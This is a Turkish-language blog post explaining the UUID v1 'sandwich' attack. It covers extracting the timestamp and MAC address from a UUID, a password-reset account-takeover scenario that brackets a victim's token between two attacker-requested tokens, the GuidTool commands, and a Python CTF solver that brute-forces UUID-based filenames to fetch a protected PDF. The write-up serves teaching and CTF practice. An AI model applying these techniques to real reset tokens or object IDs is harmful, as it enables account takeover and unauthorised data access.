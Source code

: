 ```yaml
---
title: "UUID Sandwich Exploitation"
layout: post
---
```



Sandwich Saldırısı - UUID v1 



#### UUID 

Globally Unique Identifier (GUID) olarakta tanımlanabilir.Zafiyetli versiyonları olduğu gibi zamanla daha güçlü versiyonlarıda ortaya çıkmaktadır.
Rastgele üretilen bu benzersiz değerler saniyeninde ötesinde mikro veya nanosaniye olarak üretimler gerçekleşmektedir.Üst versiyonlarda üretilen değerler
her ne kadar fazlaca üretim gerçekleştirilsede ihtimaller çok çok düşük olsada yinede 0'a yakın değildir.Yani benzer bir değer üretilebilmektedir fakat bunu tespit etmek
bir hayli çok zor bir durumdur.Kopyalanma olasılığı düşüktür fakat asla sıfır derecede değildir.

Örnek bir UUID değeri 

```
f81d4fae-7dec-11d0-a765-00a0c91e6bf6
```

#### Exploitation

Sandwich saldırısı genelde UUID 1 Versiyonunda karşımıza çıkmaktadır.Zaman kavramına göre ve MAC cinsinden üretim yapmaktadır.Account Takeover,BOLA veya IDOR gibi 
zafiyetlere sebep olmaktadır ve kritik bir öneme sahiptir.Ayrıca aynı zamanda damgası içerisinde üretilen değerler kopyalanabilir ve saldırı vektörü oluşturulabilir.

Linuxta `UUID` komutu ile örnek değerler üretebiliriz.

UUID v1 : `6ea0f896-3144-11ef-a367-005056260027` & `6f03f496-3144-11ef-86bc-005056260027`

Burada bulunan `a367` ve `86bc` değişmiştir fakat bazen bu Version 1 de değişiklik göstermemektedir.Ayrıca değişiklik gösterilse bile `005056260027` MAC bölümü sabit kalmaktadır.

UUID v4 : `60a0cf20-f5a8-4ea2-9469-d4269f0a5bc8` & `62f4a612-6d64-48a2-a271-26217702999e` 

Burada ise tamamen ayrıldığı görülmektedir.Yani olasılıklar her ne kadar sıfır olmasada sıfıra yakın bir derecede üretmektedir.
%0.000001 derece olsa bile %100 güvenli değildir ve %99.9 güvenlik sağlasada %0.1 bir zafiyet söz konusu olabilir.
UUID v1 ise bu derece oldukça fazla artmaktadır.

Ayrıca UUID Saldırıları için `https://portswigger.net/bappstore/65f32f209a72480ea5f1a0dac4f38248` Burp Suite eklentileri ile bunu keşfedebilirsiniz.

Ayrıca Bkz. `https://datatracker.ietf.org/doc/html/rfc4122`

![folder_s3](/img/UUID/uuidv1.png)


10 Adet seri üretim

```js
f2c6e440-3145-11ef-8465-0800200c9a66
f2c6e441-3145-11ef-8465-0800200c9a66
f2c6e442-3145-11ef-8465-0800200c9a66
f2c6e443-3145-11ef-8465-0800200c9a66
f2c6e444-3145-11ef-8465-0800200c9a66
f2c6e445-3145-11ef-8465-0800200c9a66
f2c6e446-3145-11ef-8465-0800200c9a66
f2c6e447-3145-11ef-8465-0800200c9a66
f2c6e448-3145-11ef-8465-0800200c9a66
f2c6e449-3145-11ef-8465-0800200c9a66
```

Burada görüldüğü üzere zaman tamamen hassas işlenmektedir.

`Timestamp: 139384289967400006`
`Timestamp: 139384289967400007`

Değişen kısımlar ise `f2c6e447-3145-11ef` tamamen buradan ibarettir ve zaman kavramı burada oluşmaktadır.
`MAC address: 08:00:20:0c:9a:66` ise MAC Adresidir yani bu değerler genelde sabit olabilmektedir.

#### UUID Extract

UUID Değerimiz `5c1dba54-ee3e-11ee-a951-0242ac120002` 

Bizim buradaki zaman değerimiz `1eeee3e5c1dba54` bundan ibarettir.

![folder_s3](/img/UUID/UUID2.jpg)

Timestamp ise ;

```js
printf "%d\n" 0x1eeee3e5c1dba54
139310590095899220
```

Bunu Nano'dan Decimal olarak bir türe dönüştürmemiz gerekmektedir.

```sh
echo "scale=9; 139310590095899220 / 10^8" | bc
1393105900.958992200
```

`13931059009` elde edilir bu bizim TimeStamp değerimizdir ve Epoch Time olarak yuvarlamamız gerekmektedir. \
`1970-01-01 - 12219292800` baz alınarak bu çıkarımı elde edebiliriz ve `13931059009 - 12219292800` 1711766209 sayısını elde ederiz. \
1711766209 Timestamp değeri ise bize `Saturday, 30 March 2024 02:36:49` tarihini vermektedir.Böylelikte tarihi tamamen elde etmiş oluruz. 

Ayrıca GuidReaper aracı ilede UUID Decode işlemi yapabiliriz.

```js
GuidReaper -d "5c1dba54-ee3e-11ee-a951-0242ac120002"
GUID version: 1
Time: 2024-03-30 02:36:49.589922
Timestamp: 139310590095899220
Node: 2485377957890
MAC address: 02:42:ac:12:00:02
Clock sequence: 10577
```

Burada tersine işlemler gerçekleştirilerek zaman damgasında 'Time Manipulation' tekniği ile Exploitation gerçekleştirilebilir. 

#### İstismar Senaryosu

1.Sistemde bir şifre sıfırlama bağlantısı oluşturduğunu ve bunu UUID kullanarak yapıldığını varsayalım. \
2.Bir adet hesap oluşturalım `uuid@attack.com` hesabımız bir kenarda dursun ve `victim@attack.com` hesabına saldırı düzenleyelim. \
3.İki hesaptada aynı zamanda şifre yenileme bağlantısı ileteceğiz.Senkronize bir şekilde aynı zamanda bağlantıyı gönderelim.  

victim@attack.com Adresine Giden Sıfırlama Bağlantısı ; 

```php
https://server/reset_password?reset=dc464b70-314a-11ef-8465-0800200c9a66&user=victim@attack.com
```

Extract Time : `Time: 2024-06-23 10:25:06.471000` \

uuid@attack.com Adresine Giden Sıfırlama Bağlantısı ; 

```php
https://server/reset_password?reset=de7a4270-314a-11ef-8465-0800200c9a66&user=uuid@attack.com
```

Extract Time : `Time: 2024-06-23 10:25:10.167000` 

Aralarında sadece 4 Saniyelik bir oynama saptanmıştır ve bu oran otomatikleştirildiğinde `Concurrency Flaws` kullanılarak saldırı gerçekleştirildiğinde 
oldukça yüksek bir risk oluşturulacaktır.

GuidTool ilede UUID değerleri üretmek mümkündür.

`guidtool.py 667b8570-0d84-11ef-9ed0-0800200c9a66 -t "1923-10-29 20:30:00" -p 1 ` komutu ile belirlenen bir zamana yönelik fazlaca üretim gerçekleşmektedir. \
Burada çok fazla olasılık bulunmaktadır ve sayı bir hayli fazladır.

Böylelikle Broken Object Level Authorization , Insecure Direct Object References veya Account Takeover gibi zafiyetlere yol açabilmektedir.

Yayınladığım araç ilede Exploitation işlemi gerçekleştirilebilir. 


[github.com/cagrieser/Uuid-Exploitation ](https://github.com/cagrieser/Uuid-Exploitation)

#### CTF Sorusunun Çözümü

IguCtf Etkinkiğinde hazırladığımız araçta ise erişim yetkisi bulunulmayan dosyaya erişim elde edilmesine yönelik bir senaryo yer almaktadır.
Buradan yola çıkarak UUIDv1 Sandwich Exploitation ile flag elde edilebilir.


![folder_s3](/img/UUID/IguCyber.png)


Ayrıca Dosya Adı Hash değeri verilerek herhangi bir kendi makinamızda işlemi daha seri bir şekilde hem sunucuyu yormadan hemde daha hızlı bir şekilde ulaşabiliriz. \
Buradaki amaç sadece dosyaya erişim sağlamaktır.

Aşağıda bulunan Python scripti ile ise verilen değerler üzerinden eşleştirme yapılarak hedef dosyaya erişim sağlanabilir ve Metadata verilerine erişim sağlanarak değer elde edilebilir.

```py
import hashlib
from colorama import init, Fore
import PyPDF2
import requests
import io 

init(autoreset=True)

target_hash = 'def3c4c32117683fcffad14e3b2a9b5d'


def md5_hash(text):
    return hashlib.md5(text.encode()).hexdigest()

def get_pdf_metadata_from_url(pdf_url):
    response = requests.get(pdf_url)
    if response.status_code == 200:
        
        pdf_content = response.content
        
        pdf_file = PyPDF2.PdfFileReader(io.BytesIO(pdf_content))
        metadata = pdf_file.getDocumentInfo()
        
        return metadata
    else:
        print(f"Failed to download PDF from {pdf_url}. Status code: {response.status_code}")
        return None

with open('FullAttackUUID.txt', 'r') as file:
    lines = file.readlines()

for line in lines:
    pdf_filename = line.strip() + '.pdf'  
    hashed_value = md5_hash(pdf_filename)
    
    # Compare with the target hash
    if hashed_value == target_hash:
        print(Fore.GREEN + f"Match found: {pdf_filename}")
        
        pdf_url = 'https://demindensimdiyegeldim.igusiber.com.tr/{}'.format(pdf_filename)
        metadata = get_pdf_metadata_from_url(pdf_url)
       
        if metadata:
            print("PDF Metadata:")
            for key, value in metadata.items():
                print(f"{key}: {value}")
        else:
            print("Failed to fetch PDF metadata.")
        
        break  
    else:
        print(f"No match: {pdf_filename} -> {hashed_value}")

```

![folder_s3](/img/UUID/uuid.gif)